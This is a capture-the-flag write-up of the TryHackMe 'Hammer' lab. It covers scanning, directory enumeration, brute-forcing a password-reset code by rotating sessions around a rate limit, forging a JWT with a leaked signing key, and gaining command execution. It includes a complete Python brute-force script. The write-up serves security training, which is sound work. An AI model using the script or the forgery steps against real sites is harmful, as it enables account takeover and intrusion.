


# TryHackMe Hammer Writeup


## Reconnaissance

The first step was scanning the target machine to identify open services.

I ran **RustScan** and **Nmap** as follows:
```
rustscan -a <target-ip> --ulimit 5000
nmap -sC -sV -p- <target-ip>
``` 
<sub> Rustscan is FASTER than NMAP 🫡


**Results:**

- **22/tcp**: Open SSH service
- **1337/tcp**: HTTP web server hosting a web application

The main attack surface was the web service on port **1337**.


---

## Initial Web Analysis

Visiting `http://<target-ip>:1337` revealed a login page but no known credentials.

Inspecting the page source uncovered a consistent pattern in directory names: all were prefixed with `hmr_` (e.g., `hmr_css`).

This observation suggested that hidden directories might also share this prefix.

---

## Directory Enumeration

To enumerate these directories, I:

1. Copied a large `/usr/share/wordlists/dirb/big.txt` wordlist, prepending `hmr_` to each line:  
    > sed 's/^/hmr_/' /usr/share/wordlists/dirb/big.txt > hmr_big.txt

2. Ran **Gobuster** using the modified wordlist:

This revealed a hidden `/hmr_logs` directory, which appeared promising for discovering application internals.


---

## Log Analysis and User Discovery

Accessing `/hmr_logs` showed accessible log files.

The logs revealed:

- Multiple attempts to run commands on the web app, denying permissions.
- Significantly, the logs contained the email address of a user: `tester@hammer.thm`

This email was key for triggering the application's **password recovery** process.


---

## Password Reset Brute-Force and Rate Limit Exploitation

The password reset system works by:

- Sending a **4-digit recovery code** linked to a session identified by `PHPSESSID`.
- Enforcing an **8-attempt rate limit per session** to prevent brute forcing.

### Rate Limit Behavior Observed

Using **Burp Suite** to intercept HTTP requests, the server responses included a header:
>   Rate-Limit-Pending: X


Which decremented from 8 down to 0 with each recovery code attempt. When it hit 0, no more tries were allowed in that session.

### Bypass Technique: Session Rotation

The key insight:

- The 4-digit code is valid for **180 seconds globally**, but each `PHPSESSID` session enforces its own 8-attempt rate limit.
- By requesting a **new password reset**, one obtains a **fresh PHPSESSID**, effectively resetting the rate limit.
- This enables **brute forcing the code by rotating sessions every 7 attempts**, staying just below the limit threshold.

### Automation Script (Python requests)

To efficiently exploit this, I wrote a Python script that:

- Requests a password reset to acquire a new session and code.
- Attempts recovery codes from `0000` to `9999`.
- Rotates sessions every 7 attempts.
- Detects a successful attempt by checking for a change in the response's word count (as the page content changes on success).

```py
import requests

RESET_URL = "http://10.10.37.199:1337/reset_password.php"
EMAIL = "tester@hammer.thm"
CODE_LENGTH = 4
ROTATION_LIMIT = 7

def get_new_session():
    session = requests.Session()
    # Trigger password reset to get new PHPSESSID and code tied to this session
    response = session.post(RESET_URL, data={"email": EMAIL})
    if response.status_code != 200:
        print("Warning: Reset request failed.")
    return session

def get_baseline_wordcount(session):
    # Use dummy code '0000' to get baseline word count for current session
    response = session.post(RESET_URL, data={"recovery_code": "0000", "s": 180})
    return len(response.text.split())

def try_code(session, code):
    data = {"recovery_code": code, "s": 180}
    response = session.post(RESET_URL, data=data)
    return response.text, len(response.text.split())

def main():
    codes = [f"{i:04d}" for i in range(10000)]
    session = get_new_session()
    baseline_wordcount = get_baseline_wordcount(session)
    print(f"Baseline word count: {baseline_wordcount}")

    for idx, code in enumerate(codes):
        if idx != 0 and idx % ROTATION_LIMIT == 0:
            session = get_new_session()
            baseline_wordcount = get_baseline_wordcount(session)
            print(f"\nSession rotated at attempt {idx}, new baseline: {baseline_wordcount}")

        response_text, wordcount = try_code(session, code)
        print(f"Attempt {idx}: Code {code}, Word Count: {wordcount}")

        if wordcount != baseline_wordcount:
            # Print both the successful code AND the current PHPSESSID cookie
            phpsessid = session.cookies.get("PHPSESSID")
            print(f"\nSuccess! Recovery code found: {code}")
            print(f"PHPSESSID: {phpsessid}")
            print(f"Response:\n{response_text}")
            break


if __name__ == "__main__":
    main()

```


---

## Dashboard Access and Limited Command Execution

After retrieving the recovery code and resetting the password, I logged into the user dashboard.

Features and limitations:

- Allowed execution of **limited commands**, notably `ls`.
- Other commands were blocked due to permissions.
- The session expired quickly, forcing automatic logout within a few moments.

Despite constraints, this access confirmed user privilege and provided a foothold in the application.


---

## JWT Token Structure and Privilege Escalation

Authentication uses JWT tokens stored as cookies.

- The JWT header had a `"kid"` claim pointing to a signing key file.
- I downloaded and inspected this key, which enabled forging of JWTs.

Using the online tool [tribestream.io JWT debugger](https://tribestream.io/tools/jwt/), I:

1. Decoded the JWT token.
2. Modified the payload to escalate privileges (e.g., changing user roles or IDs).
3. Resigned the token with the known signing key.
4. Replaced the browser's JWT cookie with the new token.

This granted **admin-level access**, enabling execution of arbitrary commands on the server.

```php
// Example simplified JWT payload after modification
{
"user_id": 1,
"role": "admin",
"email": "tester@hammer.thm",
"iat": 1670000000,
"exp": 1670005400
}
```



---

## Gaining Full Remote Code Execution

With the forged JWT token set:


- I accessed the dashboard again with **elevated privileges**.
- Tested command execution with commands like `id` which confirmed running as user `www-data`.
- Executed further commands to enumerate system files and retrieve flags:

```
id
username@hammer:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
[We need to use the JWT token in token and Authorization Bearer] 
 



---

## Burp Suite for Debugging and Traffic Interception

Throughout the process, **Burp Suite** was instrumental:

- Intercepting requests and responses.
- Observing headers like `Set-Cookie` for PHPSESSID rotation.
- Confirming rate limit headers (`Rate-Limit-Pending`).
- Testing JWT header/payload/resign changes in real-time.


---

## Summary and Lessons Learned

- **Enumeration showed HTTP and SSH services**, but HTTP port 1337 was the main focus.
- **Prefix pattern (`hmr_`)** in directories helped identify hidden paths via directory brute forcing.
- Access to **log files** exposed a valid user's email.
- The **password reset brute force was made possible by rotating PHPSESSID sessions** to bypass rate limiting.
- **JWT tokens were insecurely signed**, allowing privilege escalation via token forgery.
- Limited **command execution restrictions** were bypassed by elevating privileges.
- Combining multiple web security flaws demonstrated chained exploitation leading to full system compromise.

### Key Takeaways

- Always analyze session and rate limiting mechanisms carefully—they can often be bypassed.
- JWT validation and signing keys must be well-protected; misconfigurations here lead to severe privilege escalation.
- Detailed logging can inadvertently expose critical information.
- Automating attack steps with scripts enhances efficiency and success.

---

**This challenge is an excellent example of how combined weaknesses in session management, authentication, and token handling can lead to complete system takeover.**

**Happy hacking!** 🚀

